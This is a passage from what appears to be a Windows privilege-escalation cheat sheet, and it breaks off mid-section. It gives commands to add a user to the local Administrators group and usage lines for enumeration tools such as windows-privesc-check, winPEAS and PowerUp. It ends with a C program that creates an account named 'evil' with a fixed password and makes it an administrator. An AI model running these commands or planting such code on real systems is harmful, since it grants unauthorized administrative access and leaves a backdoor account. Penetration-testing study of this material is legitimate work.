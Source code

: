 You can enumerate your current integrity level using `whoami /groups`

### Local Group Administrator

We can add a low privileged user to the Local Administrators group with the following command:

```
net localgroup administrators <username> /add
```

## Automated Enumeration Tools

### **windows-privesc-check**

{% embed url="https://github.com/pentestmonkey/windows-privesc-check" %}

Display Help:

```
windows-privesc-check2.exe -h
```

Dump groups:

```
windows-privesc-check2.exe --dump -G
```

### winPEAS

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

### PowerUp

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

## Administrator Executables

### C Executables

Add a new user to the Administrators group:

```c
#include <stdlib.h>

int main ()
{
    int var;
    var = system ("net user evil password /add");
    var = system ("net localgroup administrators evil /add");
    return 0;
}
```

Compile the code with:
